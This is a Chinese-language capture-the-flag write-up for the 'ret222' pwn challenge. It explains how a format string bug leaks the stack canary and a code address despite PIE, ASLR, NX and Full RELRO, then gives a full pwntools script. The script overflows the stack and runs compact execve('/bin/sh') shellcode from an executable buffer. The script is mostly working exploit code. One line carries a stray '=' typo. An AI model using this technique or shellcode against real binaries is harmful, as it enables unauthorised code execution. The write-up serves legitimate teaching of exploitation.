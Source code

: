 ## ret222
本題source code中可以明顯看到兩個弱點，一個是format string vulnerability，一個是stack buffer overflow，但本題的binary開啟了ALSR、PIE、NX、Full RELRO，且沒有提供libc，因此不能使用return2libc，binary內也沒有足夠的gadget能組成ROPchain。

題目很明顯的將`name & 0xFFF`開始0x1000 bytes的空間設為`PROT_EXEC | PROT_WRITE | PROT_READ`，因此可能要將shellcode放置在name中，但是name的大小只有16bit，所以可能可以搭配一些ROP gadget來減少shellcode需要的大小。

接著問題就是要如何leak出name的位址，而PIE/ASLR設計上的弱點是.bss和.text的相對位址是固定的，因此可以先用format string leak出stack上__libc_csu_init的位址，以及canary的值，接著從__libc_csu_init算出name的位址。

shellcode的部份，我們可以藉由先將`'/bin/sh\x00'`放在payload中一併寫到stack，我們就可以將shellcode減少到16byte以內。

因此最後的流程是
1. 先將format string設定成包含要leak的位址的字串
2. 以printf leak出stack上`__libc_csu_init`的位址以及canary
3. 送出canary + &name + `'/bin/sh\x00'`的payload

```python
#!/usr/bin/env python
from pwn import *

context(arch='amd64')=

r = remote('csie.ctf.tw', 10122)

# 1. leak canary and __libc_csu_init
r.sendline('1')
r.sendline('%23$llx %24$llx')
r.sendline('2')
r.recvuntil('Name:')

canary, libc_csu_init = map(lambda addr: int(addr, 16),
                            r.recvuntil('*', drop=True).split())

# 2. compute name and generate then send the ROP payload
b = ELF('ret222')
name = libc_csu_init + (b.symbols[b'name'] - b.symbols[b'__libc_csu_init'])
payload = cyclic(136).encode()
payload += p64(canary)
payload += cyclic(8).encode()
payload += p64(name)
payload += p64(int.from_bytes(b'/bin/sh\x00', byteorder='little'))
r.sendline('3')
r.sendline(payload)

# 3. fill name with shellcode, then return to name
sc = """
    /* call execve('rsp', 0, 0) */
    xor rsi, rsi
    push (SYS_execve) /* 0x3b */
    pop rax
    mov rdi, rsp
    cdq /* rdx=0 */
    syscall
"""
r.sendline('1')
r.sendline(asm(sc))

r.sendline('4')
r.interactive()
```
